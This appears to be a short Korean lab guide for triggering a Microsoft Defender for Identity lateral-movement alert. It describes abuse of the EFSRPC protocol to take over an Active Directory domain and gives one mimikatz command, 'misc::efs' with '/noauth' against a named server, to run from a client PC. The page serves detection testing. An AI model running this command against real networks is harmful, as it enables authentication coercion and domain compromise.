

# MDI 위협 시나리오 테스트(Lateral movement alerts)

공격자가 EFSRPC(파일 시스템 원격 암호화) 프로토콜의 결함을 악용하여 Active Directory 도메인을 장악하려고 할 때 트리거됩니다.

Client PC에서 명령 창에서 다음을 실행합니다.
```cmd 
 c:\Tools\mimikatz_trunk\x64\mimikatz.exe "privilege::debug" "misc::efs /server:Winserver /connect:10.0.0.6 /noauth" "exit"
 ```


